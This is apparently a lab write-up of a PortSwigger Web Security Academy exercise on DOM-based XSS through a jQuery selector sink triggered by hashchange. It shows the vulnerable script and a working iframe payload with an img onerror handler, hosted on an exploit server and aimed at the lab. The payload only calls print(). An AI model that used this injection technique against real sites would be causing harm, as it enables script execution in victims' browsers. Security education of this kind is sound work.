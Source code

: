 # DOM XSS in jQuery selector sink using a hashchange event

## Introduction

Welcome to my another writeup! In this Portswigger Labs [lab](https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-jquery-selector-hash-change-event), you'll learn: DOM XSS in jQuery selector sink using a hashchange event! Without further ado, let's dive in.

- Overall difficulty for me (From 1-10 stars): ★☆☆☆☆☆☆☆☆☆

## Background

This lab contains a [DOM-based cross-site scripting](https://portswigger.net/web-security/cross-site-scripting/dom-based) vulnerability on the home page. It uses jQuery's `$()` selector function to auto-scroll to a given post, whose title is passed via the `location.hash` property.

To solve the lab, deliver an exploit to the victim that calls the `print()` function in their browser.

## Exploitation

**Home page:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Cross-Site-Scripting/XSS-6/images/Pasted%20image%2020221229061609.png)

**View source page:**
```html
<script src="/resources/js/jquery_1-8-2.js"></script>
<script src="/resources/js/jqueryMigrate_1-4-1.js"></script>
<script>
    $(window).on('hashchange', function(){
        var post = $('section.blog-list h2:contains(' + decodeURIComponent(window.location.hash.slice(1)) + ')');
        if (post) post.get(0).scrollIntoView();
    });
</script>
```

In here, we can see that **it uses jQuery's `$()` selector function to auto-scroll to a given post, whose title is passed via the `location.hash` property.**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Cross-Site-Scripting/XSS-6/images/Pasted%20image%2020221229062028.png)

Now, since the `location.hash` is controlled by the user, we can try to exploit that.

To do so, we need to trigger the `hashchange` event handler without user interaction.

**For example, we can use an `<iframe>`:**
```html
<iframe src="https://0af4007404af60e5c17e12d500bb0047.web-security-academy.net/#" onload="this.src+='<img src=errorpls onerror=print()>'">
```

In here, the `iframe`'s `src` attribute points to the vulnerable page with an empty hash value. When the `iframe` is loaded, an XSS payload is appended to the hash, causing the `hashchange` event to fire.

**Let's use the exploit server to host the payload and deliver to the victim:**
```html
<html>
    <head>
        <title>XSS-6</title>
    </head>
    <body>
        <iframe src="https://0af4007404af60e5c17e12d500bb0047.web-security-academy.net/#" onload="this.src+='<img src=errorpls onerror=print()>'">
    </body>
</html>
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Cross-Site-Scripting/XSS-6/images/Pasted%20image%2020221229062830.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Cross-Site-Scripting/XSS-6/images/Pasted%20image%2020221229062937.png)

We did it!

# What we've learned:

1. DOM XSS in jQuery selector sink using a hashchange event